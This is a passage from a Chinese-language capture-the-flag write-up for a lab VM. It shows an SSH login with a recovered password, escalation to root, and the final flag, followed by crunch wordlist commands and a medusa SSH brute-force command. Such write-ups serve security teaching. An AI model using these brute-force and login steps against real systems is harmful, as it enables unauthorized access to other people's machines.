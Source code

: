 找到密码: P7Curtains

登录root用户，成功获得最后一个flag！

```bash
$ sshpass -p "P7Curtains" ssh -p 22222 -o StrictHostKeyChecking=no RickSanchez@192.168.56.101
Last failed login: Thu Dec 14 20:54:15 AEDT 2023 from 192.168.56.102 on ssh:notty
There were 186 failed login attempts since the last successful login.
Last login: Thu Dec 14 20:49:14 2023 from 192.168.56.102
[RickSanchez@localhost ~]$ sudo su
[sudo] password for RickSanchez:
[root@localhost RickSanchez]# cd ~
[root@localhost ~]# ls
anaconda-ks.cfg  FLAG.txt
[root@localhost ~]# more FLAG.txt
FLAG: {Ionic Defibrillator} - 30 points
```

除了编写脚本外，也可以直接使用crunch生成字典，用[medusa](http://foofus.net/goons/jmk/medusa/medusa.html)或者hydra进行暴力破解

```bash
crunch 5 5 -t ,%The > dict.txt
crunch 7 7 -t ,%Flesh >> dict.txt
crunch 10 10 -t ,%Curtains >> dict.txt
```

```bash
medusa -M ssh -h 192.168.56.101 -n 22222 -u RickSanchez -P ./dict.txt -f 
```

## 总结

好玩！多玩！

